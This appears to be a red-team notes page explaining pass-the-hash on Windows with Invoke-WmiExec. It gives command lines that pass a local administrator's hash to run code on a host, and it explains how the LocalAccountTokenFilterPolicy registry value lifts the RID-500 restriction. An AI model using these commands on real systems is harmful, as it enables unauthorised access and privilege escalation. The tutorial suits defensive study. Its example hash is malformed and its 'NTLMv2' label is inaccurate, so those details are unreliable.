 # Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](<../../.gitbook/assets/image (167).png>)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](<../../.gitbook/assets/image (175).png>)

...but when you attempt passing the hash, you get access denied - why is that?

![](<../../.gitbook/assets/image (174).png>)

It may be because hashes for accounts that are not RID=500 (not default administrator accounts) are stripped of some privileges during the token creation.

![](<../../.gitbook/assets/image (172).png>)

![](<../../.gitbook/assets/image (171).png>)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](<../../.gitbook/assets/image (166).png>)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](<../../.gitbook/assets/image (168).png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}
